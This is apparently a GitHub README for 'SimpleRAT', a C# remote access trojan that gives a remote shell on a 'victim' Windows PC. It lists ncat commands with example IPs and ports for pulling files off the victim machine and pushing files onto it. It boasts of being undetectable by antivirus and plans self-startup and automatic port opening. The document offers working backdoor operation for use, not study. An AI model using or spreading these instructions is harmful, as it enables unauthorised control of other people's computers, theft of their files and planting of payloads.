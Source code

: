 # SimpleRAT

Self-contained RAT/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Developed for Windows, Fully compatible with Netcat (tested with windows version). 
NO additional server setups for file downloads or uploads
NO additional dll's or configuration files 
Only one .exe and netcat on your side.

# What RAT can
1. After connection on specified port (provided in JSON file, which can be changed as you wish and should be merged into exe after that by using provided tool), gives reverse shell.
2. Is able to download any files from victim's PC on specified port (provided in JSON file) and upload files on victim PC, no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
### How to download files:
1. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)

### How to upload files:
1. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

2. Check if reverse shell is working (cd, dir)

3. Put RAT in listenning state by executing:
RAT upload file -p <path/to/file.exe>

Example: RAT upload file -p C:\Users\someuser\checkme\ConsoleApp4.exe

4. Send file through netcat on main port of your RAT

Example: ncat 192.168.88.230 8888 --send-only < ConsoleApp4.exe

Process:
![rat-upload](https://user-images.githubusercontent.com/53906830/110226904-37029180-7ef3-11eb-897b-8c7db2e9a581.png)

Currently RAT is FUD as it is small and simple, without any specific features.

## Downsides
1. High .exe application size (35 MB)
2. High memory usage

![rat-memory](https://user-images.githubusercontent.com/53906830/110226932-73ce8880-7ef3-11eb-9f0e-b455832e95b4.png)

Both problems are because RAT is self-contained application with builded-in .NET runtime.

### Features To Be Done: 

1. Self startup;
2. Automatic ports opening required for communication;
